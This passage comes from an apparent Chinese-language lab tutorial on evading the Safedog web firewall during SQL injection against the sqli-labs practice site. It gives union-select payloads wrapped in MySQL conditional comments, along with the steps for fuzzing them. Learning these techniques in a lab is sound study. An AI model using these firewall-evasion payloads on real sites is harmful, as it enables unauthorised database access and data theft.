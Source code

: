 > 成功绕过
>
> 响应时间 2 秒加 sleep 时间 3 秒，刚好是 5 秒

### 1.2 新版本的安全狗绕过

### 1.2.1 条件注释绕过

提交参数

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

> 被拦截

逐个删除字符，得到拦截语法为 `union selec`

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' union selec
```

加条件注释

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*!11440*//*!11440select*/
```

> 发现依然拦截

### 1.2.1.1 特殊函数爆破

在 BurpSuite 开启拦截

在语句之间的注释添加数字 1，2

```
http://192.168.186.129/sqli-labs/Less-1/?id=-1' /*!11440union*//*12*//*!11440select*/
```

在 HackBar 提交

![在 HackBar 提交](./../../../images/SQLi%20Bypass/%E5%9C%A8%20HackBar%20%E6%8F%90%E4%BA%A4.png)

